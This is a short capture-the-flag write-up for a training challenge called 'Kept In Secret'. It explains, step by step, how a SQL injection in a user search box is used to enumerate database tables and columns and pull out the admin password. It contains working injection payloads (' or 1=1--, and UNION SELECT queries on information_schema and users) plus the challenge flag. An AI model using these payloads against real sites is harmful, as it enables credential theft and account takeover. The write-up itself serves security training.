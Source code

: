 # [Kept In Secret](https://training.majorleaguecyber.org/challenges#Kept%20in%20Secret)

So we go ahead and register a user and login. We see the same search functionality.

This allows searching by username and we get back a table of: username, name, and description.

So the query probably looks like this:

`SELECT id,username,name,description FROM table WHERE username=$_GET["search"];`

So searching for `' or 1=1-- `, will return all users. And we see an `admin` user.

We want to get his password. So first, like the last challenge we need to do these steps:

1. Determine how many columns are being returned by this query: 3
2. Determine the type of each column(or at least find one that returns a string): 1st column
3. List all the tables: `' union select table_name,null,null from information_schema.tables-- `:
and we see one called `users`
4. List the columns for that table: 
`' union select column_name,null,null from information_schema.columns where table_name='users'-- `
And the columns are: id, username, password, name, description
5. Now we can get the admin password: 
`' union select password,null,null from users where username='admin'-- `

And there's our flag!

> flag{pa55w0rd5_ar3_b1g_s3cr3t5}
